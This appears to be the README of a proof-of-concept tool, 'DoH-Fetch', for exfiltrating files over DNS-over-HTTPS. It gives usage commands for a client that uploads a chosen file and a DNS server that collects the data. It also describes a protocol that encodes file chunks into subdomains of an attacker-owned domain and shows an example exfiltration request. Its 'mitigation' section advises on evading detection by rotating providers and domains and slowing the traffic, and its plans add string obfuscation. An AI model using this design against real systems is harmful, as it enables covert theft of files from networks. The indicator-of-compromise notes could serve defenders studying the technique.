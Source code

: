 # DoH-Fetch
Simple proof of concept project to exfiltrate files via DoH

# Usage
```bash
# server
sudo systemctl stop systemd-resolved.service
sudo python3 dnspad.py
# files are stored in directory: files/<date>_combined.bin
```
```powershell
# client
.\fetch.exe -f '.\Desktop\test.xlsx'
```
# Architecture
Client (C#) - fetch.exe - ran on the Windows machine
1. Disassemble file for chunks
2. Create HTTPS requests with DNS query inside with chunks 

Server (Python) - dnspad.py  - ran on the Linux server machine (public IP + domain)
0. Stop services running on port 53 (internet access)
1. Run DNS server on port 53
2. While getting DNS queries assemble chunks into a file

# RFC limitations
* Label / subdomain:  `63` characters maximum
* Full Domain: `255` characters maximum
* Total URL: `2,000` characters maximum 

# My protocol design
My limits: `a.abcdefghi.com` which is `15` chars 

File integrity ? chunk identification number

2 bytes for ID, how many maximum ID's ?
255 * 255 = 65,025 

`possibleID` * `databytes` = maximum file size (in bytes)
`65,025` * `228` = 14,825,700 -> around 15MB

<42data>.<62data>.<62data>.<62data>.<2id>.a.chromalin.com

42 + 186 + 2 + 1 +  9 + 3 = 243

'.' also counting -> 7 above

Total: `250` where `228` is data 

simple test.xslx excel file: `8.27` KB -> 8270 / 228 = 36.3, meaning `37` requests

# IOC
A LOT of http/https traffic in small period of time: https://1.1.1.1/dns-query?name=google.com

Example http uri:
`https://1.1.1.1/dns-query?name=5353534141410D0A73757065725365637265743132.32330D0A31323865736764736739347766696F617373646773646766383932.317220736673616B6C3871723933333238666A61736C660D0A535353414141.0D0A402324255E262A28295F6B3B616C666D706F65662065770D0A53535341.0000.a.abcdefghi.com`


Mitigation: avoid generating a pattern
0. use randomized IP as a DNS response
1. limit the number 253
2. try prolong, 5 request in 5 hours
3. use different DoH services and methods (POST requests, not only GET)
4. use different domains for server

# Future development ideas
1. client: strings obfuscation
2. client: add more DoH services (google)
3. client: add POST functionality for Cloudflare (weird protocol )
4. client: stream cipher encryption
5. server: stream cipher encryption
6. protocol optimalization for more data in one query (short domain)
https://micro.domains/
7. add a filename to protocol (for example first bytes- would tell the filename length, then filename itself, then contents of data)
8. 
Having 5 letters domain ? How many maximum data ? `243` bytes in data (currently `228` )

for example: `0qf.in`

 ```
 54 chars + 63chars + 63chars + 63chars + 12 chars
```
 243  12 chars
<42data>.<63data>.<63data>.<63data>.<2id>.a.0qf.in

